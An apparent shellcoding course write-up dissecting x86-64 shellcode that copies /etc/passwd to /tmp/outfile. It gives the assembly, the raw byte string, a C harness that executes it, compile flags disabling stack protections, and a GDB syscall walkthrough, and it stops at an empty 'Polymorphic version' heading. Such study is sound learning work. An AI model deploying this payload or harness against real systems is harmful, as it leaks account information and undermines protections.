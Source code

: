 ```yaml
---
title: SLAE64 Assignment 6 - Polymorphic Copy `/etc/passwd` to `/tmp/`
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the sixth assignment of the SLAE64, I created three polymorphic payloads from shellcodes on shellstorm and the exploit db. This third payload reads `/etc/passwd` and writes the output to `/tmp/outfile`.


## Original Shellcode
The original shellcode by Chris Higgins can be found here: http://shell-storm.org/shellcode/files/shellcode-867.php
```nasm
; http://shell-storm.org/shellcode/files/shellcode-867.php
;Reads data from /etc/passwd to /tmp/outfile
;No null bytes
;Author: Chris Higgins <chris@chigs.me>
;        @ch1gg1ns -- github.com/chiggins
;        chigstuff.com
;Date:   3-27-2014
;Size:   118 bytes
;Tested: ArchLinux x86_64 3.13.6-1
Assembly:
        xor rax, rax
        mov al, 2
        xor rdi, rdi
        mov rbx, 0x647773
        push rbx
        mov rbx, 0x7361702f6374652f
        push rbx
        lea rdi, [rsp]
        xor rsi, rsi
        syscall
        mov rbx, rax
        xor rax, rax
        mov rdi, rbx
        mov rsi, rsp
        mov dx, 0xFFFF
        syscall
        mov r8, rax
        mov rax, rsp
        xor rbx, rbx
        push rbx
        mov rbx, 0x656c6966
        push rbx
        mov rbx, 0x74756f2f706d742f
        push rbx
        mov rbx, rax
        xor rax, rax
        mov al, 2
        lea rdi, [rsp]
        xor rsi, rsi
        push 0x66
        pop si
        syscall
        mov rdi, rax
        xor rax, rax
        mov al, 1
        lea rsi, [rbx]
        xor rdx, rdx
        mov rdx, r8
        syscall
```

## Testing & Analyzing the Original
First we will analyze the payload with GDB. Hopefully it works as intended!
+ Thankfully the author had already created the host `shellcode.c` program for us.
+ We will use his program and compile it with GCC.
```bash
root# gcc -m64 -z execstack -fno-stack-protector original-shellcode.c -o original-shellcode
root# gdb ./original-shellcode
GNU gdb (Debian 8.3.1-1) 8.3.1
gdb-peda$ b main
Breakpoint 1 at 0x1139
gdb-peda$ r
```
+ Awesome! So far so good!
+ We set a breakpoint on main. We will step through to the shellcode.

After stepping through his version it seems a little sketch. To play it safe, the shellcode was added to the `shellcode.c` program we are familiar with.

```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x48\x31\xc0\xb0\x02\x48\x31\xff\xbb\x73\x77\x64\x00\x53\x48"                                            "\xbb\x2f\x65\x74\x63\x2f\x70\x61\x73\x53\x48\x8d\x3c\x24\x48"                                            "\x31\xf6\x0f\x05\x48\x89\xc3\x48\x31\xc0\x48\x89\xdf\x48\x89"                                            "\xe6\x66\xba\xff\xff\x0f\x05\x49\x89\xc0\x48\x89\xe0\x48\x31"                                            "\xdb\x53\xbb\x66\x69\x6c\x65\x53\x48\xbb\x2f\x74\x6d\x70\x2f"                                            "\x6f\x75\x74\x53\x48\x89\xc3\x48\x31\xc0\xb0\x02\x48\x8d\x3c"                                            "\x24\x48\x31\xf6\x6a\x66\x66\x5e\x0f\x05\x48\x89\xc7\x48\x31"                                            "\xc0\xb0\x01\x48\x8d\x33\x48\x31\xd2\x4c\x89\xc2\x0f\x05";
int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

#### Compile Host C Program
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# gdb ./shellcode
```

### 1st Open System Call
```c
int open(const char *pathname, int flags);
rax=0x2   rdi=&AbsFileName     rsi=0x0
open("/etc/passwd", O_RDONLY)           = 3
```

```bash
RAX: 0x2
RSI: 0x0
RDI: 0x7fffffffe368 ("/etc/passwd")
   <shellcode>:     xor    rax,rax
   <shellcode+3>:   mov    al,0x2    - open syscall
   <shellcode+5>:   xor    rdi,rdi
   <shellcode+8>:   mov    ebx,0x647773 - "swd"
   <shellcode+13>:  push   rbx
   <shellcode+14>:  movabs rbx,0x7361702f6374652f - "/etc/pas"
   <shellcode+24>:  push   rbx
   <shellcode+25>:  lea    rdi,[rsp] - &etcPasswd
   <shellcode+29>:  xor    rsi,rsi - no flags = 0_RDONLY
=> <shellcode+32>:  syscall
```

### Read System Call
```c
ssize_t read(int fd, void *buf, size_t count);
rax=0x0      rdi=fd  rsi=&Dest  rdx=len(2read)
```

```bash
   <shellcode+34>:  mov    rbx,rax - rbx = fd
   <shellcode+37>:  xor    rax,rax
   <shellcode+40>:  mov    rdi,rbx - rdi = fd
   <shellcode+43>:  mov    rsi,rsp - &Dest = Top of Stack
   <shellcode+46>:  mov    dx,0xffff - Read a crap ton of bytes
   <shellcode+50>:  syscall - read systemcall
```

### 2nd Open System Call
```c
int open(const char *pathname, int flags);
rax=0x2   rdi=&AbsFileName     rsi=0x0
```

```bash
RAX: 0x2
RSI: 0x66 ('f')
RDI: 0x7fffffffe350 ("/tmp/outfile")
   <shellcode+52>:  mov    r8,rax
   <shellcode+55>:  mov    rax,rsp
   <shellcode+58>:  xor    rbx,rbx
   <shellcode+61>:  push   rbx     - 0x00 Nulll Str Terminator
   <shellcode+62>:  mov    ebx,0x656c6966 - "file"
   <shellcode+67>:  push   rbx
   <shellcode+68>:  movabs rbx,0x74756f2f706d742f - "/tmp/out"
   <shellcode+78>:  push   rbx
   <shellcode+79>:  mov    rbx,rax
   <shellcode+82>:  xor    rax,rax
   <shellcode+85>:  mov    al,0x2    - open systemcall
   <shellcode+87>:  lea    rdi,[rsp] - rdi = &String
   <shellcode+91>:  xor    rsi,rsi
   <shellcode+94>:  push   0x66
   <shellcode+96>:  pop    si
   <shellcode+98>:  syscall

### Write System Call
```c
ssize_t write(int fd, const void *buf, size_t count);
rax= 0x1      rdi=fd  rsi=&Src        rdx=len(write)

```
 
```bash
   <shellcode+100>: mov    rdi,rax  - rdi = fd /tmp/outfile
   <shellcode+103>: xor    rax,rax
   <shellcode+106>: mov    al,0x1   - write systemcall
   <shellcode+108>: lea    rsi,[rbx]
   <shellcode+111>: xor    rdx,rdx
   <shellcode+114>: mov    rdx,r8
   <shellcode+117>: syscall
```
+ Well it is close to working, but unfortnately it does not.


## Polymorphic version
